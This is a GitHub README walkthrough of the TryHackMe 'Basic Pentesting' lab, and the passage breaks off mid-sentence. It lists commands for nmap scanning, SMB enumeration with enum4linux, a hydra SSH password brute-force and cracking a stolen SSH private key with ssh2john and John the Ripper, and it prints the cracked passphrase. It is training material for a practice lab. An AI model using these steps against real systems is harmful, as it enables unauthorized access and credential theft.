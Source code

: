 # ✅ TryHackMe CTF Walkthrough: Basic Pentesting

This repository contains a comprehensive walkthrough of how I solved the **Basic Pentesting CTF** on TryHackMe.  
The CTF focuses on fundamental penetration testing skills by simulating a vulnerable machine designed for beginners.

---

## 🎯 Room Overview

The **Basic Pentesting CTF** is a practical introduction to penetration testing methodologies.  
It is structured to teach and test key skills such as:

- VPN connectivity to the TryHackMe network.  
- Information gathering and reconnaissance techniques.  
- Web directory busting.  
- SMB service enumeration and exploitation.  
- Brute-force attacks to crack weak passwords.  
- SSH key extraction and cracking for privilege escalation.  
- Practical use of essential pentesting tools.

---

## 📚 Step-by-Step Walkthrough

1. Connect With the TryHackMe server using Command:  
   ```bash
   sudo openvpn Downloads/Ynos.ovpn
   ```

2. Confirm you can connect to the machine using the command:  
   ```bash
   ping <IP of the machine>
   ```

3. Start the nmap scan with:  
   ```bash
   nmap -sV -O -T5 -p- 10.10.87.116 -oN Nmap.results
   ```

4. While scanning, start directory busting the website and you will find some directories here mainly **development** (nothing important).

5. The nmap results will show that the **SMB service is open on ports 139 and 445**, which is a very buggy and exploitable service.  
   We will exploit this to gain access to this computer.

6. As the SMB service is open, we will attack it with the tool **enum4linux** using the command:  
   ```bash
   enum4linux 10.10.87.116 | tee enum4linux.results
   ```

7. From this result, we find out that the username of this person is **jan**.  
   Previously from our enumeration, we found that this person had a weak password, so we will perform a brute-force attack with **hydra** using the command:  
   ```bash
   hydra -l jan -P /usr/share/wordlists/rockyou.txt -f ssh://10.10.87.116 -o hydra.results
   ```

8. From hydra, we discovered the password for this user.

9. Now we will gain access to its shell using the command:  
   ```bash
   ssh jan@10.10.87.116
   ```

10. After gaining access, start enumeration with basic commands like:  
    ```bash
    id
    sysinfo
    ```

11. During enumeration, I learned that there is a file that contains a key to your machine that you can give to someone, allowing them to log into the computer as you.

12. Found that jan had the file in the **.ssh folder named id_rsa**.

13. Now we need to convert the private key into a hash format that can be cracked by John the Ripper.

14. We do that by running:  
    ```bash
    ssh2john id_rsa > hash
    ```  
    where `hash` is the filename of the newly created hash.

15. Now we crack this hash using:  
    ```bash
    john hash --wordlists=/usr/share/wordlists/rockyou.txt
    ```

16. The passphrase revealed by John the Ripper was:  
    ```
    beeswax
    ```

17. If we try to get the shell at this point, it will say that file permission is too open, so we need to change file permission to 600 by the command:  
    ```bash
    chmod 600 id_rsa
    ```

18. Now we will gain access to the shell using the command:  
    ```bash
    ssh -i id_rsa kay@10.10.87.116
    ```

19. Enter pass:  
    ```
    beeswax
    ```

20. Successfully got the shell through user **kay**.

---

## 🎯 Skills Gained

- VPN connection techniques for remote lab access.  
- Nmap scanning and directory busting for surface discovery.  
- SMB enumeration using **enum4linux**.  
- Brute-force password discovery using **Hydra**.  
- SSH login and basic system enumeration commands.  
- SSH private key extraction, hash generation, and cracking using **ssh2john** and **John the Ripper**.  
- Proper handling of private key file permissions.  
- Privilege escalation via key-based SSH login.

---

## ⚡ Final Outcome

- Successfully enumerated the target using **Nmap, dirb, and enum4linux**.  
- Discovered and exploited weak credentials via brute force.  
- Extracted and cracked SSH private key.  
- Gain
